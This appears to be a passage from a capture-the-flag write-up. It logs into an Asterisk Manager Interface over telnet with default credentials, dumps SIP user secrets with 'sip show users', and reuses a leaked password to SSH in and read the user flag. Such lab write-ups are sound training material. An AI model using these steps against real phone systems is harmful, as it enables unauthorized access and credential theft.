 
<h3>telnet</h3>

```bash
ACTION: LOGIN
Username: admin
SECRET: abc123
EVENTS: ON
```

```bash
telnet TargetIP 5038
Trying TargetIP...
Connected to TargetIP.
Escape character is '^]'.
Asterisk Call Manager/5.0.2

Response: Error
Message: Missing action in request

ACTION: LOGIN
Username: admin
SECRET: abc123
EVENTS: ON

Response: Success
Message: Authentication accepted

Event: FullyBooted
Privilege: system,all
Uptime: 1237
LastReload: 1237
Status: Fully Booted

Action: command
Command: sip show users

Response: Success
Message: Command output follows
Output: Username                   Secret           Accountcode      Def.Context      ACL  Forcerport
Output: 100                        100                               test             No   No        
Output: 101                        101                               test             No   No        
Output: harry                      p4ss#w0rd!#                       test             No   No      
```



```bash
ssh harry@TargetIP
...
harry@ubuntu:~$ pwd
/home/harry
harry@ubuntu:~$ ls
Example_Root.jar  user.txt
harry@ubuntu:~$ cat user.txt
thm{bas1c_aster1ck_explotat1on}
```

